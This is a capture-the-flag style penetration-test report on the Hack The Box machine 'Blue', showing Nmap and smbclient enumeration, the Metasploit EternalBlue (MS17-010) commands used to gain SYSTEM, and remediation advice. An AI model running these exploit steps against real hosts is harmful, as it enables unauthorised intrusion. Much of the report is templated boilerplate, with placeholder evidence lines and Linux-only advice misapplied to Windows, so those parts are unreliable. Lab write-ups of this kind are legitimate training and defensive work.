



# Security Assessment Report: Blue


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Blue** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution)
* **Privilege Escalation Vector:** N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Blue |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | CVE-2017-0144 |
| **Initial Foothold Vector** | MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution) |
| **Privilege Escalation Vector** | N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution)
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

---

### Executive Technical Overview

Blue is an assessment target Windows Easy exposing SMBv1 vulnerable to MS17-010 (EternalBlue). This vulnerability allows remote code execution (RCE) at kernel level, yielding direct administrative access as NT AUTHORITYSYSTEM without requiring intermediate privilege escalation. This represents the same flaw leveraged by el ransomware WannaCry in 2017.

---

### Phase 1: Reconnaissance & Port Scanning

Initial port scanning using Nmap. Detected 3 puertos TCP principales: **135** (RPC), **139** (NetBIOS), **445** (SMB).


* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


The identified host name is **HARIS-PC**:


* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


Sistema operativo: **Windows 7** Professional 7601 SP1:


* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


---

### Phase 2: Vulnerability Analysis & Attack Surface Mapping

With SMB active on port 445, accessible network shares were enumerated using `smbclient -L //10.10.10.40 -N`. Identified **5 shares** accesibles:


* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Vulnerability Detection & Verification

Verifying SMB vulnerability posture using `nmap --script smb-vuln-ms17-010 -p 445 10.10.10.40`. Scan Outcome: **vulnerable to MS17-010** (CVE-2017-0144), RCE en SMBv1:


* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


---

### Phase 3: Exploitation & Initial Foothold

**Contexto:** Esta es la misma vulnerabilidad que uso el ransomware **WannaCry** (mayo 2017). El exploit EternalBlue fue desarrollado por la NSA y filtrado por Shadow Brokers.

Explotamos con Metasploit:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
run
```



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


---

### Phase 5: Proof of Compromise & Flag Capture

#### User Proof Flag Verification

`C:\Users\haris\Desktop\user.txt`:



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


#### Root / System Proof Flag Verification

`C:\Users\Administrator\Desktop\root.txt`:



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution)**<br>*Precondition:* Vulnerable SMBv1 protocol enabled and accessible over port 445 without firewall segmentation. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Disable SMBv1 across all endpoints and enforce SMB signing / encryption via Group Policy Object (GPO). | `powershell -Command "Get-WindowsOptionalFeature -Online -FeatureName SMB1Protocol | Select-Object FeatureName, State"` |
| **P1: N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit**<br>*Precondition:* Insecure local privileges or stored administrative credentials accessible to low-privilege sessions. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Implement LAPS for local administrator password rotation and audit token privileges. | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution)):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
powershell -Command "Get-WindowsOptionalFeature -Online -FeatureName SMB1Protocol | Select-Object FeatureName, State"
```
* **Expected Output upon Successful Remediation:**
```text
FeatureName : SMB1Protocol
State       : Disabled
```

**2. Verification for Local Privilege Escalation Mitigation (N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
* **Expected Output upon Successful Remediation:**
```text
ERROR: The system was unable to find the specified registry key or value.
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (CVE-2017-0144).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (MS17-010 EternalBlue (SMBv1 Kernel-Level Remote Code Execution)) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (N/A - Direct NT AUTHORITY\SYSTEM Execution from Exploit) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
